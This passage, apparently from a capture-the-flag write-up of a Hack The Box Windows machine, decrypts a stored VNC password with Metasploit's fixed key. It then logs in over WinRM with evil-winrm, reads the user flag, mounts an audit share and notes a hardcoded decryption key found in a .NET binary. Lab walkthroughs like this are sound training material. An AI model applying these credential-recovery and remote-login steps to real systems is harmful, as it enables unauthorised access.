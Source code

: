     :::text
    $ msfconsole
    msf5 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object

    irb: warn: can't alias jobs from irb_jobs.
    >> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
    => "\u0017Rk\u0006#NX\a"
    >> require 'rex/proto/rfb'
    => true
    >> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
    => "sT333ve2"

With this account we can connect to the box using
[evil-winrm](https://github.com/Hackplayers/evil-winrm). We quickly found the
user flag inside on our user Desktop.

    :::text
    kali@kali:~/tools/github/evil-winrm$ ruby ./evil-winrm.rb -i 10.10.10.182 -u s.smith -p sT333ve2

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\s.smith\Documents> type "C:\Users\s.smith\Desktop\user.txt"
    6c624e1637cf604fec1cda8de1ad0779

# Getting root

We try to mount some other share with our `s.smith` account. `Audit` is interesting as
there is a executable binary `CascAudit.exe`, a DLL `CascCrypto.dll`, and a
SQLite Database `Audit.db`.

    :::text
    kali@kali:~$ sudo mount //10.10.10.182/Audit$ /mnt/ -o username=s.smith
    Password for s.smith@//10.10.10.182/Audit$:  ********
    kali@kali:~$ tree /mnt/
    /mnt/
    ├── CascAudit.exe
    ├── CascCrypto.dll
    ├── DB
    │   └── Audit.db
    ├── RunAudit.bat
    ├── System.Data.SQLite.dll
    ├── System.Data.SQLite.EF6.dll
    ├── x64
    │   └── SQLite.Interop.dll
    └── x86
        └── SQLite.Interop.dll

    3 directories, 8 files

We load the executable in [DNSpy](https://github.com/0xd4d/dnSpy) and look at
the code. We saw a function that use the Crypto DLL to decrypt a text providing
from the database using the key `c4scadek3y654321`.
